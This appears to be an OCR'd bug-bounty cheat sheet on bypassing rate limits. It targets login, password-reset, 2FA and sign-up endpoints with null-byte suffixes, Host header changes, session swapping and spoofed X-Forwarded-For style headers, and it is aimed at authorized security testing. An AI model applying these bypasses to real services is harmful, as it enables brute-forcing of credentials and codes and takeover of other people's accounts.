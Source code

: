 # bypass-rate-limit

Where to look for Bugs

- login
- reset password
- 2fA
- Confirmation codes
- Sign up





using Null Chars:

%00, %0d%0a, %09, %0C, %20, %0

>brute force using abc@xyz.com:
	after some time
	you got blocked
>>try abc@xyz.com%00






Host Header injection:
Change Host:www.newsite.com
Change Host:localhost
Change Host:127.0.0.1
Changing cookies
For example if it blocks by 15 Requests
Change session on 14 req and try 





X-forwaded-forwaded-For:

X-Forwarded: <IP>
X-Forwarded-For: <IP>
X-Forwarded-Host: <IP>
X-Client-IP: <IP>
X-Remote-IP: <IP>
X-Remote-Addr: <IP>
X-Host: <IP>
X-Originating-IP: <IP>
X-forwaded-forwaded-For
add 2 headers
add Header X-Forwaded-For:
add Header X-Forwaded-For:198.168.43.1
